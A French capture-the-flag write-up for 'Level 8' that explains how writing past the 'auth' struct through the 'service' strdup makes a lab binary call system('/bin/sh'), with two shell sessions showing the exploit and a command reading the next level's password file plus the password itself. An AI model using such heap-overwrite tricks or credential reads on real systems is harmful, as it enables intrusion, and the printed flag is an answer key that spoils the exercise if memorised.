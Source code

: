 # Level 8

Lors de la décompilation du binaire, on peut voir qu'il y a un appel à la fonction `system` pour exécuter la commande `/bin/sh`.  
Le programme répète en boucle la lecture de commande `auth`, `reset`, `service` `login` et l'affichage des adresse de la variable `auth` et `service`.

Pour pouvoir exécuter la fonction `system`, la valeur de l'adresse `auth + 32` doit être différente de `0`. L'objectif de notre exploit sera de chercher à écrire dans `auth->number`, en profitant du `strdup` de la commande `service`. L'exploitation est d'autant plus facile que les adresses mémoires des variables `auth` et `service` nous sont données à chaque tour de boucle.  
Pour cela nous avons plusieurs méthodes différentes. L'attribution des adresses mémoires est statique : si nous exécutons la commande `auth a` la variable `auth` aura toujours cette adresse `0x804a008` donc l'adresse `0x804A028` ne devra pas être `null`.

## Solution 1
Faire deux appels successifs à `service` :
```shell
~ ./level8
(nil), (nil)
auth a
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$
```

## Solution 2
Écrire directement un grand nombre de caractères (quinze suffisent) en un seul appel à `service` :
```shell
~ ./level8
(nil), (nil)
auth a
0x804a008, (nil)
service aaaaaaaaaaaaaaa
0x804a008, 0x804a018
login
$
```

Il ne nous reste plus qu'à récupérer le `pass` du niveau suivant.
```shell
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
